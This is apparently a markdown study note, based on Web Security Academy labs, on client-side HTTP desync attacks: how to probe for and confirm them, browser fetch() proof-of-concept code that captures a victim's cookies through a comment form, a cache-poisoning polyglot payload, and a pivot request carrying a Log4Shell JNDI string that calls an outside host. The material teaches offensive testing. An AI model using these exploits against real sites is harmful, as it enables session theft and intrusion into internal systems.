

# Client-side desync attacks
>[!important]
>For these attacks to work, the target web server must **not** support HTTP/2. Client-side desyncs rely on **HTTP/1.1 connection reuse**, and browsers generally favor HTTP/2 where available.

>[!question] What is a client-side desync attack?
>A client-side desync (CSD) is an attack that makes the victim's web browser desynchronize its own connection to the vulnerable website, **enabling attacks on single-server sites**.



A CSD attack involves the following stages:
1. The victim visits a web page on an arbitrary domain containing malicious JavaScript.
2. The JavaScript causes the victim's browser to issue a request to the vulnerable website. This contains an attacker-controlled request prefix in its body, much like a normal request smuggling attack.
3. The malicious prefix is left on the server's TCP/TLS socket after it responds to the initial request, desyncing the connection with the browser.
4. The JavaScript then triggers a follow-up request down the poisoned connection. This is appended to the malicious prefix, eliciting a harmful response from the server.

# Testing for client-side desync vulnerabilities

Both [Burp Scanner](https://portswigger.net/burp/vulnerability-scanner) and the [HTTP Request Smuggler](https://portswigger.net/bappstore/aaaa60ef945341e8a450217a54a11646) extension can help you automate much of this process, but it's useful to know how to do this manually to cement your understanding of how it works.

### Probing for client-side desync vectors

The first step in testing for client-side desync vulnerabilities is to identify or craft a request that causes the server to ignore the `Content-Length` header.

As with [CL.0 smuggling vulnerabilities](CL.0%20smuggling%20vulnerabilities.md), the most likely candidates are endpoints that aren't expecting POST requests (static files, server-level redirects, etc.). Remember that you still need a request that a browser will send cross-domain. In practice, this means you can only tamper with the URL, body, plus a few odds and ends like the `Referer` header and latter part of the `Content-Type` header.


*Redirect response*
```http
GET / HTTP/1.1
Host: 0ae9004d04f8d418853d94dc00040000.h1-web-security-academy.net
Cookie: session=7hU4rhvzi2hOj62r5Q4AewufEbjiCC0f; _lab_analytics=n41lqMeF9Sxi8sjLkaw3X6HP2Zbt5vhkPSFJPIwyGuxHPy33HHQEK9p4FBIJKOPVB72rFbnMyqrldP3xlepovUgOMLNfZI8JVazYoYri6eaFEBm8TWLQieOMihQ1vVee51Y629efffjnIkXiraplZCJlIXidBk25eM1AYQtMymFZeHe6f8g6nveXTprtUpNXqKIXkUwaBnC8lL3jdQPX14XfMbSHs12iSgicyvf2nFdv1C0dvainVKq6LoVbcimq

---

HTTP/1.1 302 Found
Location: /en
```

Send a request with a `Content-Length` longer than the actual body and observe:
- If the request just hangs or times out, this suggests that the server is waiting for the remaining bytes promised by the headers.
- If you get an immediate response, you've **potentially found a CSD vector**.

*Immediate response from the server, so potentially CSD:*
```http
POST / HTTP/1.1
Host: 0ae9004d04f8d418853d94dc00040000.h1-web-security-academy.net
Cookie: session=7hU4rhvzi2hOj62r5Q4AewufEbjiCC0f; _lab_analytics=n41lqMeF9Sxi8sjLkaw3X6HP2Zbt5vhkPSFJPIwyGuxHPy33HHQEK9p4FBIJKOPVB72rFbnMyqrldP3xlepovUgOMLNfZI8JVazYoYri6eaFEBm8TWLQieOMihQ1vVee51Y629efffjnIkXiraplZCJlIXidBk25eM1AYQtMymFZeHe6f8g6nveXTprtUpNXqKIXkUwaBnC8lL3jdQPX14XfMbSHs12iSgicyvf2nFdv1C0dvainVKq6LoVbcimq
Content-Length: 1000
Content-Type: application/x-www-form-urlencoded

---

HTTP/1.1 302 Found
Location: /en
```

### Confirming the desync vector

Some secure servers respond without waiting for the body but still parse it correctly when it arrives, others don't handle the `Content-Length` correctly but close the connection immediately after responding, making them unexploitable.

Try sending two requests down the same connection to see if you can use the body of the first request to affect the response to the second one, just like in [CL.0 smuggling vulnerabilities](CL.0%20smuggling%20vulnerabilities.md).

*Setup request*
```http
POST / HTTP/1.1
Host: 0ae9004d04f8d418853d94dc00040000.h1-web-security-academy.net
Cookie: session=7hU4rhvzi2hOj62r5Q4AewufEbjiCC0f; _lab_analytics=n41lqMeF9Sxi8sjLkaw3X6HP2Zbt5vhkPSFJPIwyGuxHPy33HHQEK9p4FBIJKOPVB72rFbnMyqrldP3xlepovUgOMLNfZI8JVazYoYri6eaFEBm8TWLQieOMihQ1vVee51Y629efffjnIkXiraplZCJlIXidBk25eM1AYQtMymFZeHe6f8g6nveXTprtUpNXqKIXkUwaBnC8lL3jdQPX14XfMbSHs12iSgicyvf2nFdv1C0dvainVKq6LoVbcimq
Content-Length: 34
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded

GET /hopefully404 HTTP/1.1
Foo: x

---

HTTP/1.1 302 Found
Location: /en
X-Frame-Options: SAMEORIGIN
Keep-Alive: timeout=10
Content-Length: 0
```

*Follow-up request (404 instead of 302, meaning that we have performed the desync and retrieved the response to `/hopefully404` )*
```http
GET / HTTP/1.1
Host: 0ae9004d04f8d418853d94dc00040000.h1-web-security-academy.net
Cookie: session=7hU4rhvzi2hOj62r5Q4AewufEbjiCC0f; _lab_analytics=n41lqMeF9Sxi8sjLkaw3X6HP2Zbt5vhkPSFJPIwyGuxHPy33HHQEK9p4FBIJKOPVB72rFbnMyqrldP3xlepovUgOMLNfZI8JVazYoYri6eaFEBm8TWLQieOMihQ1vVee51Y629efffjnIkXiraplZCJlIXidBk25eM1AYQtMymFZeHe6f8g6nveXTprtUpNXqKIXkUwaBnC8lL3jdQPX14XfMbSHs12iSgicyvf2nFdv1C0dvainVKq6LoVbcimq
Connection: keep-alive

---

HTTP/1.1 404 Not Found
```

The effective request is that has been received is: 
```http
GET /hopefully404 HTTP/1.1
Foo: xGET / HTTP/1.1
Host: 0ae9004d04f8d418853d94dc00040000.h1-web-security-academy.net
```

### Building a PoC in a browser

>[!warning]- Browser requirements
>- Use a browser that is **not** proxying traffic through Burp Suite
>- Disable any browser extensions

>[!tip]
>Inside the `Developer tools > Network tab`: Right-click on the headers and enable the **Connection ID** column.
>This ensures that each request that the browser sends is logged on the **Network** tab, along with details of which connection it used. This can help with troubleshooting any issues

Fetch request to replicate the desync probe
```js
fetch('https://vulnerable-website.com/vulnerable-endpoint', {
    method: 'POST',
    body: 'GET /hopefully404 HTTP/1.1\r\nFoo: x', // malicious prefix
    mode: 'no-cors', // ensures the connection ID is visible on the Network tab
    credentials: 'include' // poisons the "with-cookies" connection pool
}).then(() => {
    location = 'https://vulnerable-website.com/' // uses the poisoned connection
})
```

When you run this command, you should see two requests on the **Network** tab: one with the usual response, and another one with the response to the malicious prefix (in this case, a 404).


### Handling redirects

Requests to endpoints that trigger server-level redirects are a common vector for client-side desyncs. When building an exploit, this presents a minor obstacle because browsers will follow this redirect, breaking the attack sequence.

Fixed PoC (you won't be able to see the connection ID on the **Network** tab):
```js
fetch('https://vulnerable-website.com/redirect-me', {
    method: 'POST',
    body: 'GET /hopefully404 HTTP/1.1\r\nFoo: x',
    mode: 'cors', // intentionally trigger a CORS error, which prevents the browser from following the redirect
    credentials: 'include'
}).catch(() => {
    location = 'https://vulnerable-website.com/'
})
```

# Exploiting client-side desync vulnerabilities

Once you've found a suitable vector and confirmed that you can successfully cause the desync in a browser, you're ready to start looking for exploitable gadgets.

You can perform many of the server-side [HTTP & HTTP/2 Request Smuggling](HTTP%20Request%20Smuggling.md#Exploiting%20HTTP%20&%20HTTP/2%20Request%20Smuggling) attacks and also [CL.0 & H2.0 vulnerabilities](CL.0%20smuggling%20vulnerabilities.md#Exploiting%20CL.0%20&%20H2.0%20vulnerabilities).

## Capturing other user' requests

Comment feature that can be used as a gadget:
```http
POST /en/post/comment HTTP/1.1
Host: 0a39008a040db5ee85ad9a88006a001a.h1-web-security-academy.net
Cookie: ...
Content-Length: 300
Content-Type: application/x-www-form-urlencoded
Connection: keep-alive

csrf=YllbKwgZvdOawykY3ZMDuq5D84JKTxXp&postId=9&name=foo&email=foo%40bar.lol&website=&comment=foobar
```

Same technique as [Capturing other user' requests using HTTP request smuggling](Exploiting%20HTTP%20Request%20Smuggling.md#Capturing%20other%20user'%20requests):
```http
POST / HTTP/1.1
Host: 0a39008a040db5ee85ad9a88006a001a.h1-web-security-academy.net
Content-Length: 612           // right length here
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded

POST /en/post/comment HTTP/1.1
Host: 0a39008a040db5ee85ad9a88006a001a.h1-web-security-academy.net
Cookie: session=OApY0yXRKbmfPaSLgG0c3z1Ynr75JIcT; _lab_analytics=cqM1uEt1mQk69HhSUh5mHbEoeHOmWZodkEIb1MpyxnefEd3tDeRQisHgodiZSfrEt7dO5xti9g9Lbvd7iMNlryWY3HuSSBGZ4K8PSAbz7DuF4ospcOdhHPWhGJ9hSwefzivlHrZpiU9dBXDUdZ8g4EcAte5HyHuP7TSKfq0MZSmiFNsRbLV7xqa4PjEFnVSyySAmV1qjT04g9wZ9Ok8RbIPP3ARuURivoHISxRmxOPE0AkkslwXAORWVq9Hy5jFy
Content-Type: application/x-www-form-urlencoded
Content-Length: 800          // capture length here
Connection: keep-alive

csrf=KVKhgwp3iNnMrYRsPUlZuke6aatPyUdz&postId=9&name=foo&email=foo%40bar.lol&website=&comment=
```

Browser has been desynced and the next request will be captured inside the comment:
```http
POST /en/post/comment HTTP/1.1
Host: 0a39008a040db5ee85ad9a88006a001a.h1-web-security-academy.net
Cookie: session=OApY0yXRKbmfPaSLgG0c3z1Ynr75JIcT; _lab_analytics=cqM1uEt1mQk69HhSUh5mHbEoeHOmWZodkEIb1MpyxnefEd3tDeRQisHgodiZSfrEt7dO5xti9g9Lbvd7iMNlryWY3HuSSBGZ4K8PSAbz7DuF4ospcOdhHPWhGJ9hSwefzivlHrZpiU9dBXDUdZ8g4EcAte5HyHuP7TSKfq0MZSmiFNsRbLV7xqa4PjEFnVSyySAmV1qjT04g9wZ9Ok8RbIPP3ARuURivoHISxRmxOPE0AkkslwXAORWVq9Hy5jFy
Content-Type: application/x-www-form-urlencoded
Content-Length: 800          // capture length here
Connection: keep-alive

csrf=KVKhgwp3iNnMrYRsPUlZuke6aatPyUdz&postId=9&name=foo&email=foo%40bar.lol&website=&comment=GET / HTTP/1.1\r\nHost: 0a39008a040db5ee85ad9a88006a001a.h1-web-security-academy.net\r\nUser-Agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko)\r\n ... Cookie: victim-fingerprint=LnpKfoLiArhCQiovtuKIrk0mtidxWcIg; secret=E6oDGjjA6jrC2jjR9cjju17feBu6s7s2; session=kZXmA2bVCPDFb2SjRmiS4Ee3eEy8iLB2; _lab_analytic ...
```

PoC:
```js
<html><script>
fetch('https://0a39008a040db5ee85ad9a88006a001a.h1-web-security-academy.net/', {
    method: 'POST',
    body: 'POST /en/post/comment HTTP/1.1\r\nHost: 0a39008a040db5ee85ad9a88006a001a.h1-web-security-academy.net\r\nCookie: session=OApY0yXRKbmfPaSLgG0c3z1Ynr75JIcT; _lab_analytics=cqM1uEt1mQk69HhSUh5mHbEoeHOmWZodkEIb1MpyxnefEd3tDeRQisHgodiZSfrEt7dO5xti9g9Lbvd7iMNlryWY3HuSSBGZ4K8PSAbz7DuF4ospcOdhHPWhGJ9hSwefzivlHrZpiU9dBXDUdZ8g4EcAte5HyHuP7TSKfq0MZSmiFNsRbLV7xqa4PjEFnVSyySAmV1qjT04g9wZ9Ok8RbIPP3ARuURivoHISxRmxOPE0AkkslwXAORWVq9Hy5jFy\r\nContent-Type: application/x-www-form-urlencoded\r\nContent-Length: 800\r\nConnection: keep-alive\r\n\r\ncsrf=KVKhgwp3iNnMrYRsPUlZuke6aatPyUdz&postId=9&name=foo&email=foo%40bar.lol&website=&comment=',
    mode: 'cors', 
    credentials: 'include' 
}).catch(() => {
    fetch('https://0a39008a040db5ee85ad9a88006a001a.h1-web-security-academy.net', {
        mode: 'no-cors',
        credentials: 'include'
    })
})
</script></html>
```


## Client-side cache poisoning

Using client-side desync you can [turn an on-site redirect into an open redirect like in traditional request smuggling](Exploiting%20HTTP%20Request%20Smuggling.md#Using%20request%20smuggling%20to%20turn%20an%20on-site%20redirect%20into%20an%20open%20redirect), but it can be tricky to poison the right connection at the right time. To overcome this limitation, we can use a desync to **poison the browser's cache** instead.

>[!warning]
>When testing this attack in a browser, make sure you **clear your cache between each attempt** (`Settings > Clear browsing data > Cached images and files`).

1. **Use the desynced connection to poison the cache with a redirect**

You need to find a suitable redirect gadget, then you can poison the cache with a smuggled prefix performing the redirection and referring the actual javascript in the follow-up request:
```html
<script>
    fetch('https://vulnerable-website.com/desync-vector', {
        method: 'POST',
        body: 'GET /redirect-me HTTP/1.1\r\nFoo: x',
        credentials: 'include',
        mode: 'no-cors'
    }).then(() => {
        location = 'https://vulnerable-website.com/resources/target.js'
    })
</script>
```

>[!note]
>You need to trigger the follow-up request via a top-level navigation to the target domain. Due to the way browsers partition their cache, issuing a cross-domain request using `fetch()` will poison the wrong cache.

**2. Triggering the resource import**

You now need to further develop your script so that when the browser returns having already poisoned its cache, it is navigated to a page on the vulnerable site that will trigger the resource import. When the browser attempts to import the resource on the target site, it will use its poisoned cache entry and be redirected back to your malicious page for a third time.

**3. Delivering a payload**

Initially, the victim's browser loads your malicious page as HTML and executes the nested JavaScript in the context of your own domain. When it eventually attempts to import the JavaScript resource on the target domain and gets redirected to your malicious page, you'll notice that the script doesn't execute. This is because you're still serving HTML when the browser is expecting JavaScript.

For an actual exploit, you need a way to serve plain JavaScript from the same endpoint, while ensuring that this only executes at this final stage to avoid interfering with the setup requests.

One possible approach is to create a polyglot payload by wrapping the HTML in JavaScript comments:
```js
alert(1);
/*
<script>
    fetch( ... )
</script>
*/
```

When the browser loads the page as HTML, it will only execute the JavaScript in the `<script>` tags. When it eventually loads this in a JavaScript context, it will only execute the `alert()` payload, treating the rest of the content as arbitrary developer comments.

## Pivoting attacks against internal infrastructure

If the website is vulnerable to client-side desyncs, you may be able to achieve the desired effect by inducing a victim's browser to send the following request:

```http
POST /vulnerable-endpoint HTTP/1.1
Host: vulnerable-website.com
User-Agent: Mozilla/5.0 etc.
Content-Length: 86

GET / HTTP/1.1
Host: vulnerable-website.com
User-Agent: ${jndi:ldap://x.oastify.com}
```

As all of the requests originate from the victim's browser, this potentially enables you to pivot attacks against any website that they have access to. This includes sites located on trusted intranets or that are hidden behind IP-based restrictions. Some browsers are working on mitigations for these types of attack, but these are likely to only have partial coverage.
